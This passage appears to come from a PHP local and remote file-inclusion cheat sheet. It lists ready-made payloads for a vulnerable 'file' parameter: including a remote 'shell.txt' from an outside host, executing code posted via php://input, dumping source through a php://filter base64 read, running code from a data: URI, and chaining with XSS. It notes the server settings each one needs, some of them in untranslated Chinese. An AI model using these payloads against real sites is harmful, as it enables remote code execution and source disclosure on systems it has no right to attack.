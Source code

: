 
- Normal remote file contains


  ```

  ?file=[http|https|ftp]://example.com/shell.txt

  ```



Need `allow_url_fopen=On` and `allow_url_include=On`.


- Utilize PHP stream input


  ```

  ?file=php://input

  ```



  需要 `allow_url_include=On` 。



- Utilize PHP stream filter


  ```

  ?file=php://filter/convert.base64-encode/resource=index.php

  ```



  需要 `allow_url_include=On` 。



-Use data URIs


  ```

  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

  ```



  需要 `allow_url_include=On` 。



- Execute with XSS


  ```

  ?file=http://127.0.0.1/path/xss.php?xss=phpcode

  ```
